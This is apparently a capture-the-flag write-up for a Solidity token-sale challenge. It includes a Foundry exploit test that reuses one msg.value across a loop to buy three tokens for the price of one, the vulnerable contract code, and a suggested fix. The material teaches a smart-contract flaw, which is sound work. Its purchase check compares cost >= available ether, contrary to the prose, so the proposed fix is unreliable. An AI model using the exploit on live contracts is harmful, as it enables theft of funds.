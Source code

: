 # BuyMyTokens Solution
This challenge is another challenge that requires very little code to exploit. Let's look at the exploit, and dive into why it works:
```
function test_GetThisPassing_5() public {
    address hacker = address(0xBAD);
    

    vm.startPrank(hacker);
    uint256[] memory amounts = new uint256[](3);
    amounts[0] = 12;
    amounts[1] = 6;
    amounts[2] = 4;
    target.purchaseTokens{value: 1.2 ether}(amounts);
    vm.stopPrank();

    assertEq(token1.balanceOf(hacker), 12 ether);
    assertEq(token2.balanceOf(hacker), 6 ether);
    assertEq(token3.balanceOf(hacker), 4 ether);
}
```
All we need to exploit this smart contract is go through each price and divide it by the amount of ether we have available. But shouldn't the function revert if we attempt to double spend our ether?

If you look inside `purchaseTokens()` & `_checkPurchasingPower()`, you will see that we check if the `msg.value` is equal to the `price` * `amount` inside of the for loop:
```
function purchaseTokens(uint256[] memory _amounts) external payable {
    require(_amounts.length == 3, "There are 3 tokens");
    for(uint256 i; i < 3; i++) {
        MarqToken token = tokens[i];
        uint256 amount = _amounts[i];
        uint256 price = tokenPrices[token];
        // validation of price inside of a for loop with msg.value
        _checkPurchasingPower(msg.value, amount, price);
        token.mint(amount * 10**18);
        token.transfer(msg.sender, amount * 10**18);
    }
}

// this gets checked inside of the for loop with msg.value
function _checkPurchasingPower(uint256 _amountOfEtherAvailable, uint256 _amount, uint256 _price) internal {
    uint256 cost = _price * _amount;
    require(cost >= _amountOfEtherAvailable, "dont be that guy; pay for your tokens");
}
```
Because we do not keep track of how much of the `msg.value` should be allocated to the previous purchases, each iteration calculates the purchase price with "already spent" ether.
A better solution would involve a variable that keeps track of how much ether we have spent on previous purchases like so:
```
// added var
uint256 availableEther = msg.value;
for(uint256 i; i < 3; i++) {
    MarqToken token = tokens[i];
    uint256 amount = _amounts[i];
    uint256 price = tokenPrices[token];
    // fixed function call
    _checkPurchasingPower(availableEther, amount, price);
    token.mint(amount * 10**18);
    token.transfer(msg.sender, amount * 10**18);
    // keep track of spent ether
    availableEther -= price * amount;
}
```

If you ever see `msg.value` inside of a for loop, you should immediately be skeptical that the code functions properly.
